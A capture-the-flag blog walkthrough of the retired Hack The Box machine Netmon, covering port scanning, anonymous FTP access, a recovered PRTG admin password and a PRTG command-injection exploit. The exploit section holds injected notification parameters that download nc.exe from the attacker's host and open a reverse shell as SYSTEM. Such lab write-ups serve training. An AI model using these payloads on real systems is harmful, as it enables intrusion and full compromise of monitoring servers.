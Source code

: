 ```yaml
---
layout: post
title: "Netmon: Hack The Box Walkthrough"
date: 2019-06-30 05:27:39 +0000
last_modified_at: 2019-06-30 05:45:29 +0000
category: Walkthrough
tags: ["Hack The Box", Netmon, retired]
comments: false
image:
  feature: netmon-htb-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/photos/computer-searches-internet-chat-1172404/
---
```


This post documents the complete walkthrough of Netmon, a retired vulnerable [VM][1] created by [mrb3n][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

Netmon is an active vulnerable VM from Hack The Box.

### Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.152 --rate=700

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-03-10 13:41:15 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 49666/tcp on 10.10.10.152
Discovered open port 49664/tcp on 10.10.10.152
Discovered open port 49677/tcp on 10.10.10.152
Discovered open port 49667/tcp on 10.10.10.152
Discovered open port 49665/tcp on 10.10.10.152
Discovered open port 52337/tcp on 10.10.10.152
Discovered open port 5985/tcp on 10.10.10.152
Discovered open port 139/tcp on 10.10.10.152
Discovered open port 47001/tcp on 10.10.10.152
Discovered open port 80/tcp on 10.10.10.152
Discovered open port 445/tcp on 10.10.10.152
Discovered open port 49668/tcp on 10.10.10.152
Discovered open port 21/tcp on 10.10.10.152
Discovered open port 135/tcp on 10.10.10.152
Discovered open port 53099/tcp on 10.10.10.152
```

Whoa. `masscan` finds many open ports. Let's do one better with `nmap` scanning the discovered ports to see what services are available.

```
# nmap -n -v -Pn -p21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49677,52337,53099 -A --reason 10.10.10.152 -oN nmap.txt
...
PORT      STATE  SERVICE      REASON          VERSION
21/tcp    open   ftp          syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open   http         syn-ack ttl 127 Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp   open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open   netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open   microsoft-ds syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open   http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open   http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49677/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
52337/tcp closed unknown      reset ttl 127
53099/tcp closed unknown      reset ttl 127
...
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-03-10 13:48:31
|_  start_date: 2019-03-10 13:32:38
```

Since anonymous FTP login is allowed, let's go with that first.

### File Transfer Protocol

To my pleasant surprise, `C:\Users\Public` is available.

<a class="image-popup">
![2f8bf31c.png](:storage/13c45494-6a27-4d68-ad5f-496d8c8fb907/2f8bf31c.png)
</a>

And guess what, `user.txt` is here!

<a class="image-popup">
![90a90b90.png](:storage/13c45494-6a27-4d68-ad5f-496d8c8fb907/90a90b90.png)
</a>

### PRTG Network Monitor

Moving on to the `http` service, this is how it looks like.

<a class="image-popup">
![542fe300.png](:storage/13c45494-6a27-4d68-ad5f-496d8c8fb907/542fe300.png)
</a>

In conjuntion with the official security [advisory](https://www.paessler.com/about-prtg-17-4-35-through-18-1-37) and the [location](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data) of the various configuration files, I was able to uncover a plaintext password from the file below.

<a class="image-popup">
![adca4be4.png](:storage/13c45494-6a27-4d68-ad5f-496d8c8fb907/adca4be4.png)
</a>

Here's the plaintext password.

<a class="image-popup">
![56c19c7a.png](:storage/13c45494-6a27-4d68-ad5f-496d8c8fb907/56c19c7a.png)
</a>

And since this is a backup and knowing many administrators increment the year for convenience's sake, the password may be `PrTg@dmin2019`. Let's give it a shot.

<a class="image-popup">
![3214f2a7.png](:storage/13c45494-6a27-4d68-ad5f-496d8c8fb907/3214f2a7.png)
</a>

Awesome.

### PRTG < 18.2.39 Command Injection Vulnerability

During my research for vulnerability related to PRTG, I chanced upon this [blog](https://www.codewatch.org/blog/?p=453) discussing command injection vulnerability, with `SYSTEM` privileges no less.

Follow the instructions to create a custom notification with the following parameters.

```
test.txt; Invoke-WebRequest http://10.10.15.200/nc.exe -OutFile c:\Users\Public\Downloads\nc.exe
```

If you've read the blog carefully, you'll realize certain characters are encoded. As such, I'm avoiding certain bad characters, if you will, to download a copy of `nc.exe` to `c:\Users\Public\Downloads` with PowerShell.

Verify that `nc.exe` is indeed downloaded.

<a class="image-popup">
![e26dd675.png](:storage/13c45494-6a27-4d68-ad5f-496d8c8fb907/e26dd675.png)
</a>

Next, we use the following parameters to run a reverse shell back to us.

```
test.txt; c:\Users\Public\Downloads\nc.exe 10.10.15.200 1234 -e cmd.exe
```

<a class="image-popup">
![4b13a195.png](:storage/13c45494-6a27-4d68-ad5f-496d8c8fb907/4b13a195.png)
</a>

Getting `root.txt` is trivial when you have `SYSTEM` privileges.

<a class="image-popup">
![4d1f295b.png](:storage/13c45494-6a27-4d68-ad5f-496d8c8fb907/4d1f295b.png)
</a>

:dancer:

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/177
[2]: https://www.hackthebox.eu/home/users/profile/2984
[3]: https://www.hackthebox.eu/
